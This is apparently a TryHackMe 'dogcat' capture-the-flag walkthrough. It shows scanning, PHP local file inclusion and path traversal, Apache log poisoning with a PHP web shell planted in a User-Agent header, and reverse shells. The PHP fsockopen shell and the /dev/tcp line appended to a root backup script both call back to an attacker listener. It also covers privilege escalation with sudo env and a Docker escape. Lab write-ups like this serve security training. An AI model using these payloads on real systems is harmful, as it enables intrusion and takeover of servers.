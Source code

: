 # dogcat

**Room Link:** [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (393).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog
```

**Kali**

```
echo "PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (394).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
http://10.10.228.190/?view=php://filter/convert.base64-encode/resource=dog/../index
```

**Kali**

```
echo "PCFET0NUWVBFIEhUTUw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+ZG9nY2F0PC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4d
C9jc3MiIGhyZWY9Ii9zdHlsZS5jc3MiPgo8L2hlYWQ+Cgo8Ym9keT4KICAgIDxoMT5kb2djYXQ8L2gxPgogICAgPGk+YSBnYWxsZXJ5IG9mIHZhcmlvdXMgZG9ncyBvciBjYXRzPC9pPgoKICAgIDxkaXY+
CiAgICAgICAgPGgyPldoYXQgd291bGQgeW91IGxpa2UgdG8gc2VlPzwvaDI+CiAgICAgICAgPGEgaHJlZj0iLz92aWV3PWRvZyI+PGJ1dHRvbiBpZD0iZG9nIj5BIGRvZzwvYnV0dG9uPjwvYT4gPGEgaHJ
lZj0iLz92aWV3PWNhdCI+PGJ1dHRvbiBpZD0iY2F0Ij5BIGNhdDwvYnV0dG9uPjwvYT48YnI+CiAgICAgICAgPD9waHAKICAgICAgICAgICAgZnVuY3Rpb24gY29udGFpbnNTdHIoJHN0ciwgJHN1YnN0ci
kgewogICAgICAgICAgICAgICAgcmV0dXJuIHN0cnBvcygkc3RyLCAkc3Vic3RyKSAhPT0gZmFsc2U7CiAgICAgICAgICAgIH0KCSAgICAkZXh0ID0gaXNzZXQoJF9HRVRbImV4dCJdKSA/ICRfR0VUWyJle
HQiXSA6ICcucGhwJzsKICAgICAgICAgICAgaWYoaXNzZXQoJF9HRVRbJ3ZpZXcnXSkpIHsKICAgICAgICAgICAgICAgIGlmKGNvbnRhaW5zU3RyKCRfR0VUWyd2aWV3J10sICdkb2cnKSB8fCBjb250YWlu
c1N0cigkX0dFVFsndmlldyddLCAnY2F0JykpIHsKICAgICAgICAgICAgICAgICAgICBlY2hvICdIZXJlIHlvdSBnbyEnOwogICAgICAgICAgICAgICAgICAgIGluY2x1ZGUgJF9HRVRbJ3ZpZXcnXSAuICR
leHQ7CiAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgIGVjaG8gJ1NvcnJ5LCBvbmx5IGRvZ3Mgb3IgY2F0cyBhcmUgYWxsb3dlZC4nOwogICAgICAgICAgICAgICAgfQogIC
AgICAgICAgICB9CiAgICAgICAgPz4KICAgIDwvZGl2Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
http://10.10.228.190/?view=dog/../../../../etc/passwd&ext=
```

<figure><img src="../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=ls HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (398).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```

**Burp**

```
GET /?view=dog/../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.10.145.14",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.129.114
User-Agent: <?php system($_GET['cmd']);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (399).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (400).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

## Privilege Escalation

**Exploit:** [https://gtfobins.github.io/gtfobins/env/](https://gtfobins.github.io/gtfobins/env/)

```
sudo -l
/usr/bin/env /bin/sh -p 
```

<figure><img src="../../.gitbook/assets/image (36) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (8).png" alt=""><figcaption></figcaption></figure>

## Break out of Docker

We get a hint we're actually in a docker container

**Victim**

```
ls -lah /
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see there is a backups folder that tars the contents of /root/container since we have access to edit this file we modify the file with a reverse shell

**Victim**

```
cat /opt/backups/backup.sh
echo "sh -i >& /dev/tcp/10.10.113.93/1440 0>&1" >> /opt/backups/backup.sh
cat /opt/backups/backup.sh
```

**Kali**

```
nc -lvnp 1440
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

